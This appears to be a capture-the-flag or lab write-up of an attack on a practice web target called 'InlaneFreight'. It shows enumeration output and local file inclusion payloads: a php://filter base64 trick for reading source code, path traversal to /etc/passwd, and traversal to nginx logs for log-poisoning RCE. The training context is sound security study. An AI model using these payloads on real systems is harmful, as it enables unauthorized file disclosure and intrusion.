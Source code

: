 
### Web Enumeration 

__Whatweb tool Results
```
Bootstrap, Country[RUSSIAN FEDERATION][RU], HTML5, HTTPServer[nginx/1.18.0],
JQuery[3.3.1], 
PHP[7.3.22], 
Script, Title[InlaneFreight], 
X-Powered-By[PHP/7.3.22], nginx[1.18.0]
```

totel Hidden Directories/files found 
```
contact                 [Status: 200, Size: 7036, Words: 1569, Lines: 195]
about                   [Status: 200, Size: 14635, Words: 3194, Lines: 331]
main                    [Status: 200, Size: 15829, Words: 3435, Lines: 401]
index                   [Status: 200, Size: 0, Words: 1, Lines: 1]
industries              [Status: 200, Size: 12404, Words: 2814, Lines: 314]
error        
```

Working payloads
================
After Try all the possible attack vector found the following working payload that will give us a furture information.
```
ip:port/index.php?page=php://filter/read=convert.base64-encode/resource=index
```
this is the payload that we use to convert the index.php file into base64 so we can decode base64 string to get the source code of the index.php.
**note the server add .php extension automatic so you dont have give him that**

After decoding the base64 code of source file now we have the backend source code. There we can see all the backend code used and also there we can see a comment that might be a admin panal or admin directory.

`ilf_admin/index.php`
After search this directory into the browser with the following format
`http://IP:Port/ilf_admin/index.php`
we found out that this is a admin panal. There we see diffrent directory when we click on it we see from url that they might be a attack vector for LFI.
Like the following payload


```
ip:port/ilf_admin/index.php?log=../../../../../etc/passwd
```
After checking the above reference code we found out that admin panal page have vulnerbility and we can read the local files content.
So now we do the other thing to get RCE 

There is some log file location we know from the module that might useable to get rce 

```
http://ip:port/ilf_admin/index.php?log=../../../../../var/log/nginx/error.log

http://ip:port/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log
```
